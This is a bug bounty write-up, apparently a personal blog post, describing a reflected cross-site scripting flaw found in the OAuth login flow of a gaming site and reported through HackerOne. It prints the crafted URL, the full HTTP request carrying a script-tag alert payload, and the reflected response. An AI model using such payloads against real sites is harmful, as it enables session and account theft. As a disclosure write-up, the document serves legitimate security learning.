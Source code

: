 ```yaml
---
layout: post
title: "Discovery of Reflected Cross-Site Scripting (XSS) Vulnerability in a Public Program"
date: 2021-02-08 12:00
categories: blog
---
```


Reflected Cross-site Scripting.

## Target

The target of this analysis is https://lootdog.io/, a website hosted on HackerOne's platform with a large scope. During the reconnaissance phase, an unintended behavior was identified in the Oauth request, leading to further investigation.

## Technical Analysis

The login request from https://lootdog.io/ was intercepted and analyzed using a repeater tool to observe the Oauth workflow. It was discovered that the website utilizes https://account.my.games as an Oauth service. Upon clicking the login button, users are redirected to https://account.my.games, where they can log in if they possess a valid account. To assess the security of the Oauth implementation, a search was conducted for potential vulnerabilities such as Reflected XSS or Open Redirect issues that could be exploited to obtain the Oauth token and compromise user accounts.

An additional parameter was added to the end of the request's keyed value as follows:

`&Set-Cookie: <script>alert(“Hacked By Deathstroke”)</script>`

The resulting URL was crafted as follows:

```
https://account.my.games//oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script>
```

Subsequently, the request containing the payload was sent and the response was observed.

## Request

```http
GET /oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script> HTTP/1.1 
Host: account.my.games 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: https://lootdog.io/ 
Connection: close
```

## Response

```http
<script>alert("Hacked By Deathstroke")</script> HTTP/1.0 200 OK 
Content-Type: text/html; charset=utf-8 
X-Frame-Options: SAMEORIGIN 
Content-Length: 3982 
Vary: Origin
```

However, no access token was found to be reflected in the response at that time. Nonetheless, the issue was reported to the program, as it had the potential to pose other security threats.

![img](/assets/images/blogs/XSS_lootdog/1.webp)

The payload can be seen successfully reflected in the HTTP response.

![img](/assets/images/blogs/XSS_lootdog/2.webp)

This marked the discovery of my first vulnerability, which was promptly reported to HackerOne. After the HackerOne analyst verified and triaged the vulnerability through discussions, the issue was ultimately resolved, and I was rewarded with a Hall of Fame (HoF) distinction.

Thank you for reading.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
